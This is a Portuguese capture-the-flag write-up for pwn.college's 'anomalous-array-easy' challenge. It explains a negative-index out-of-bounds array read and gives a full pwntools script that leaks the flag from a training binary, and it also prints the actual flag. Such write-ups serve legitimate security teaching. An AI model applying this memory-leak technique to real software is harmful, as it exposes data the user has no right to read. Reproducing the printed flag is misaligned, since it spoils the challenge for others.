






# pwn.college — Anomalous Array Easy (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** Array index out-of-bounds · Leitura de memória fora do array · Índice negativo · Vazamento de dados via acesso arbitrário · Automação com pwntools · Little-endian byte reconstruction

---

## Descrição do Desafio

O desafio `anomalous-array-easy` apresenta um binário que armazena uma série de "hacker numbers" em um array na stack e permite ao usuário escolher qual índice visualizar. A flag está carregada em memória, mas **fora dos limites do array** — o programa nunca a imprime diretamente. O binário, por ser a versão easy, imprime o layout da stack e os endereços relevantes a cada execução.

A vulnerabilidade é um **array index out-of-bounds**: o programa não valida se o índice fornecido é negativo, permitindo acessar regiões de memória anteriores ao início do array — exatamente onde a flag está armazenada.

---

## Reconhecimento Inicial

Ao rodar o binário, ele imprime o estado completo da stack, os endereços do array e da flag, e solicita um índice:



```
The program's memory status:
- the array starts at 0x7ffd79637768
- the flag is located at 0x7ffd796371a0

Which number would you like to view?
```

Com esses dois endereços em mãos, é possível calcular o offset entre o início do array e a flag:

```
0x7ffd79637768 - 0x7ffd796371a0 = 0x5C8 = 1480 bytes... 
```

Mas como o array é de elementos de 8 bytes (64 bits), o índice é calculado em unidades de 8 bytes. Calculando em decimal:

```
array:  0x7ffd79637768
flag:   0x7ffd796371a0

diferença = 0x7ffd79637768 - 0x7ffd796371a0 = 0x5C8 = 1480 bytes
índice    = 1480 / 8 = 185
```

Como a flag está em endereços **mais baixos** que o array (antes dele na memória), o índice precisa ser **negativo**: `-185`.

---

## Confirmando o Acesso — Primeiros Testes

Antes de tentar o índice negativo, foi testado o comportamento normal do binário com um índice válido (`1`), que retorna um dos hacker numbers esperados — confirmando que o programa funciona como descrito:



Em seguida, enviando `-185` como índice — o offset calculado até o início da flag —, o programa retorna um valor hexadecimal completamente diferente dos hacker numbers:



```
Your hacker number is 6c6c6f632e6e7770
```

Convertendo `6c6c6f632e6e7770` de hexadecimal para ASCII (respeitando o little-endian):

```python
>>> p64(int("6c6c6f632e6e7770", 16))
b'pwn.coll'
```

Os primeiros 8 bytes da flag já aparecem: `pwn.coll`. Testando o índice `-184` — o bloco seguinte na memória —, o próximo trecho da flag é revelado:



Para obter a flag completa, seria necessário continuar com `-183`, `-182`... até encontrar o caractere `}` — processo que o exploit automatiza.

---

## A Solução — Automação com pwntools

Fazer isso manualmente — rodar o programa várias vezes, anotar cada valor hex, converter para ASCII consultando a tabela — seria tedioso e suscetível a erros. A solução foi automatizar com um script que:

1. Começa em `n = -185` e incrementa até encontrar o `}` da flag
2. Em cada iteração, lê o valor hex retornado pelo programa
3. Converte o hex para os bytes ASCII correspondentes (desfazendo o little-endian)
4. Concatena os blocos até montar a flag completa



```python
from pwn import *

PATH = '/challenge/anomalous-array-easy'

n = -185
i = 0
flag = ""

while (n < 0):
    p = process(PATH)
    p.sendline(f"{n}")
    p.recvuntil("Your hacker number is ")
    password = p64(int(p.recvline().strip(), 16))
    flag = flag + password.decode("latin-1")
    p.close()

    n = n + 1

    if "}" in flag:
        flag_limpa, lixo = flag.split("}")
        flag_limpa = flag_limpa + "}"
        print(f"A flag {flag_limpa} foi encontrada após o {n+185}o input.")
        break
```

### Entendendo a conversão linha a linha

A linha central do exploit é:

```python
password = p64(int(p.recvline().strip(), 16))
```

O dado flui da direita para a esquerda em quatro transformações:

**`p.recvline()`** — lê tudo até a quebra de linha `\n`. Usado no lugar de `recv(16)` porque o valor hex impresso pode ter menos de 16 caracteres (zeros à esquerda são omitidos pelo `printf`), e `recv(16)` cortaria o dado no meio.

**`.strip()`** — remove espaços e o `\n` das bordas. Sem isso, o `int()` falharia ao tentar interpretar o newline como parte do número hexadecimal.

**`int(..., 16)`** — converte a string hex limpa em um inteiro Python. Por exemplo: `b'6c6c6f632e6e7770'` vira o inteiro `7812745330365822832`.

**`p64(...)`** — empacota o inteiro em 8 bytes em little-endian, desfazendo a ordem em que o valor foi impresso. O inteiro `7812745330365822832` vira `b'pwn.coll'`.

Por fim, `.decode('latin-1')` converte os bytes para string Python, necessário para a concatenação com a variável `flag` (que foi iniciada como string vazia `""`). O `latin-1` é usado porque mapeia cada byte de 0 a 255 para um caractere sem lançar exceções, ao contrário do `utf-8`.

### Por que o loop condicionado a `n < 0`?

O índice começa em `-185` e é incrementado a cada iteração. O loop `while (n < 0)` garante que o script pare automaticamente ao ultrapassar o índice `0` — evitando entrar na região válida do array e ler lixo indefinidamente. Na prática, o `break` ao encontrar `}` interrompe antes disso.

---

## Resultado Final



```
A flag pwn.college{8E6Vj9fgQzjQozoXmxmjomYLyYs.0FN4cDOxwCOzYTNxEzW} foi encontrada após o 8o input.
```

A flag foi encontrada após apenas 8 leituras — os primeiros 8 blocos de 8 bytes a partir do índice `-185` já cobriam toda a string `pwn.college{...}`.

---

## Resumo do Fluxo de Exploração

```
1. Binário imprime endereço do array e da flag a cada execução
2. flag está antes do array na memória → índice negativo necessário
3. diferença = (array - flag) / 8 = 1480 / 8 = 185 → índice inicial = -185
4. índice -185 → p.recvline() retorna o hex dos primeiros 8 bytes da flag
5. p64(int(hex, 16)) → desfaz o little-endian → bytes ASCII legíveis
6. loop de n=-185 até encontrar "}" → concatena blocos → flag completa
7. flag encontrada após o 8º input
```

---

## Comparação com os Desafios Anteriores

| | pointer-problems | anomalous-array-easy |
|---|---|---|
| Objetivo | Sobrescrever ponteiro para imprimir a flag | Ler a flag via índice negativo fora do array |
| Tipo de vulnerabilidade | Buffer overflow (escrita) | Array out-of-bounds (leitura) |
| Direção do acesso | Escrita além do buffer | Leitura antes do array |
| ASLR | ✅ Presente | ✅ Presente (endereços mudam) |
| Endereços fornecidos | Sim (easy) / Não (hard) | ✅ Sim (easy) |
| Automação necessária | Não (easy) / Loop de brute-force (hard) | Loop de leitura de blocos |
| Canary | ❌ Sem canary | ❌ Desabilitado pelo desafio |
